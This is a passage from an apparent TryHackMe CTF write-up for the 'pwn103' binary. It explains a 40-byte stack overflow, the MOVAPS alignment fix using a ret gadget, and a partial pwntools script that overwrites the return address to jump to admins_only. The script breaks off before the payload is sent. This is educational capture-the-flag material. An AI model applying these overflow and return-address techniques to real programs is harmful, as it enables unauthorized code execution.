 When we create a string with cyclic and try to inflate buffer we see 40 char is enough. Then we write our admins_only’s adress and try to exploit. It works on local but without this command line it does not work on remote server: “exploit  += p64(0x401016)”

Why? Because of MOVAPS issue. Check this writeup section to understand this. 

[DEF CON CTF Qualifier 2015: r0pbaby write-up - Peilin Ye's blog](https://ypl.coffee/r0pbaby/#section5)

To fix MOVAPS issue we have to write like this  

> “ret retgadget admins_only”
> 

instead of 

> “ret admins_only”
> 

Because MOVAPS issue you should find ret’s address from 

```bash
objdump -d ./pwn103.pwn103
```

![Untitled](/assets/images/Binary-Exploitation/Pwn101-TryHackMe-CTF-Writeup/Untitled%2013.png)

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

elf = ELF('./pwn103.pwn103')

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([elf] + argv, *a, **kw)

io = start()

exploit  = b''
exploit  += b"\x90"*40
#exploit  += pack("<I", 0x401016)
#exploit  += pack("<I", 0x0000000000401554)

exploit  += p64(0x401016)
exploit  += p64(elf.symbols['admins_only'])

print(io.recv().decode('utf-8'))
io.sendline('3')
```